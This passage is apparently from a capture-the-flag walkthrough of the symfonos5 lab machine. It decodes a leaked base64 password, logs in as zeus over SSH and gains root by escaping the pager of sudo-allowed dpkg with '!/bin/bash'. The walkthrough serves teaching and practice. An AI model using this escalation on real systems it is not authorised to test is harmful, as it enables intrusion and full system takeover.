 ```bash
...
```
As we see in the above results the, **zeus** username and password was revelated, the password is base64 encoded, so let's decode it.

```bash
root@kali:~$ echo "Y2V0a0tmNHdDdUhDOUZFVA==" | base64 -d; echo
cetkKf4wCuHC9FET
```

## Exploitation
### Access via SSH
With the **zeus** user and the decoded password we log in to the SSH service, then we enumerate for the sudo permissions and we see that the **dpkg** command can be executed as root without password.

```bash
root@kali:~$ ssh zeus@192.168.179.140
zeus@192.168.179.140's password:
zeus@symfonos5:~$ sudo -l
Matching Defaults entries for zeus on symfonos5:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User zeus may run the following commands on symfonos5:
    (root) NOPASSWD: /usr/bin/dpkg
```

## Privilege Escalation
### dpkg Sudo Permissions
dpkg is a tool to install, build, remove and manage, packages. With this utility an attacker can install malicious software or elevate privileges to root.

With the following instruction we list packages in a less format, then we invoke a bash shell and finally we get root.

```bash
zeus@symfonos5:~$ sudo dpkg -l
Desired=Unknown/Install/Remove/Purge/Hold  
| Status=Not/Inst/Conf-files/Unpacked/halF-conf/Half-inst/trig-aWait/Trig-pend
|/ Err?=(none)/Reinst-required (Status,Err: uppercase=bad)
...
!/bin/bash
root@symfonos5:/home/zeus# id
uid=0(root) gid=0(root) groups=0(root)
```
